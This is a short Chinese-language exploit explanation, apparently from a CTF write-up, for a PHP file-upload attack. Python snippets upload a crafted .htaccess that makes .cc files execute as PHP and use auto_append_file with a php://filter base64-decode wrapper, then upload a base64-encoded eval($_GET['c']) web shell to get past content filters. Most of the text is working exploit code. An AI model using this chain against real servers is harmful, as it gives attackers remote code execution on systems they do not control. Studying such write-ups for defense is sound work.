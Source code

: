 

# 3. exp解释

## 3.1 上传.htaccess

```javascript
htaccess = b"""\x00\x00\x8a\x39\x8a\x39
AddType application/x-httpd-php .cc
php_value auto_append_file "php://filter/convert.base64-decode/resource=/var/www/html/upload/tmp_2c67ca1eaeadbdc1868d67003072b481/shell.cc"

"""

# 上传.httaccess
proxies = {"http":"http://127.0.0.1:8080"}
r = requests.post(url=url, data=data, files=files)#proxies=proxies)
print(r.text)
```



## 3.2 .htaccess文件内容意思：

### 3.2.1 ：将 .cc结尾的文件当做php文件执行

### 3.2.2 ：最关键的地方：

```javascript
php_value auto_append_file "php://filter/convert.base64-decode/resource=
/var/www/html/upload/tmp_2c67ca1eaeadbdc1868d67003072b481/shell.cc"
```

执行文件时自动加上：shell.cc文件的内容，

并且将shell.cc文件的内容base64解码

即在任意执行的.cc文件的后面加上shell.cc文件 base64解码后的内容



shell.cc文件上传时经过了base64编码，绕过了ph,<?内容检测，而后.htaccess文件将内容base64解码回来，构成shell文件



## 3.3 shell.cc文件内容意思：

```javascript
shell = b"\x00\x00\x8a\x39\x8a\x39"+b"00"+ base64.b64encode(b"<?php eval($_GET['c']);?>")

files = [('file',('shell.cc',shell,'image/jpeg'))]
r = requests.post(url=url, data=data, files=files)
print(r.text)
```
